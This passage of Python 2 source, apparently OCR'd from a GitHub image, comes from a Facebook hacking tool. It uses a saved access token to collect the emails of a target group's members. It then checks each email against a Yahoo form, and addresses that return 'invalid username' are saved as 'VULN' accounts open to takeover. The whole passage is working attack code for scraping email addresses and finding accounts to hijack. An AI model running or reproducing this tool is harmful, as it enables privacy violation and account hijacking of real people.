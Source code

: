 				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				click = br.submit().read()
				seat = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					picks = seat.search(click).group()
				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in picks:
					save.write(mail + '\n')
					print("\033[1;97m[ \033[1;92mVULN✓\033[1;97m ] \033[1;92m" +mail+" \033[1;97m=>"+fb_name)
					sucessful.append(mail)
		except KeyError:
			pass
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(sucessful))
	print"\033[1;91m[+] \033[1;92mFile saved \033[1;91m:\033[1;97m out/FriendMailVuln.txt"
	save.close()
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	menu_yahoo()

##### YAHOO MEMBER #####
def yahoomember():
	global fb_token
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('clear')
	print logo
	mpsh = []
	jcsb = 0
	id=raw_input('\033[1;91m[+] \033[1;92mInput ID group \033[1;91m:\033[1;97m ')
	try:
		r=requests.get('https://graph.facebook.com/group/?id='+id+'&access_token='+fb_token)
		asw=json.loads(r.text)
		print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom group \033[1;91m:\033[1;97m "+asw['name']
	except KeyError:
		print"\033[1;91m[!] Group not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_yahoo()
	mkdir('\033[1;91m[✺] \033[1;92mGetting email from group \033[1;97m...')
	friends = requests.get('https://graph.facebook.com/'+id+'/members?fields=name,id&limit=999999999&access_token='+fb_token)
	mitchy = json.loads(friends.text)
	save = open('out/groupMailVuln.txt','w')
	mkdir('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
        print 42*"\033[1;97m═"
	for w in mitchy['data']:
		jcsb +=1
		mpsh.append(jcsb)
		id = w['id']
		fb_name = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+fb_token)